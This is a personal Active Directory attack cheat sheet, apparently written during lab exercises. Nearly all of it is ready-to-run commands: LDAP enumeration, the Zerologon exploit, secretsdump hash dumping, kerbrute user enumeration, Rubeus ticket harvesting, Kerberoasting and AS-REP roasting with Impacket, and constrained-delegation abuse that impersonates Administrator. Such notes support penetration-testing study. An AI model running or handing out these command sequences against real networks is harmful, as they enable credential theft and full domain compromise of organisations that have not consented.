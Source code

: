 # AD Notes
`nmap -n -sV --script "ldap* and not brute" -p 389 10.10.170.157` for finding NetBIOS name of the Domain Controller,

NetBIOS domain name of the network, etc.,

`python3 zerologon.py <dc-name> <dc-ip>`

`python3 secretsdump.py -just-dc -no-pass DC01\$@10.10.170.157` to dump ntlm hashes of the system

`./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt`  
 for username enumeration

`` `Rubeus.exe harvest /interval:30` ``  hash dump when you're already in

for kerberoasting/find users hashes use:

```text-plain
python3 GetUserSPNs.py COOCTUS.CORP/Visitor:GuestLogin! -dc-ip 10.10.15.138 -request
```

if you get the error, `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` when running this, it's because of your local time, you need to synchronize the host with the DC: `ntpdate 10.10.15.138`

Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled.

```text-plain
python3 GetNPUsers.py windcorp.thm/ -no-pass -usersfile ../../../windcorp/valid_users.txt
```

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account.

There are other tools out as well for AS-REP Roasting such as kekeo and Impacket's GetNPUsers.py.

**Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....**

**The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided. You can dump the Kerberos Tickets from the LSASS memory just like you can dump hashes.**

![](AD%20Notes/c9113ad0ff443dd0973736552e85aa.jpg)

Kerberos Delegation:
--------------------

The following is a description of the risk posed by different delegation types:

*   **Unconstrained delegation**: Any service can be abused if one of their delegation entries is sensitive.
*   **Constrained delegation**: Constrained entities can be abused if one of their delegation entries is sensitive.
*   **Resource-based constrained delegation (RBCD)**: Resource-based constrained entities can be abused if the entity itself is sensitive.

`'TRUSTED_TO_AUTH_FOR_DELEGATION!'` set which confirms our contrained delegation theory.

Using the impacket's find delegation to extract more information about the delegation.

```text-plain
impacket-findDelegation -debug COOCTUS.CORP/password-reset:resetpassword -dc-ip 10.10.15.138
```

Using the impacket's getST script to impersonate and get the ticket of the Administrator user.  
If the account is configured with constrained delegation (with protocol transition), we can request service tickets for other users, assuming the target SPN is allowed for delegation

```text-plain
impacket-getST -spn oakley/DC.COOCTUS.CORP -impersonate Administrator "COOCTUS.CORP/password-reset:resetpassword" -dc-ip 10.10.15.138
```

Once we have the ccache file, set it to the KRB5CCNAME variable so that it is loaded inside the memory and then we can use it to our advantage.

```text-plain
export KRB5CCNAME=Administrator.ccache
```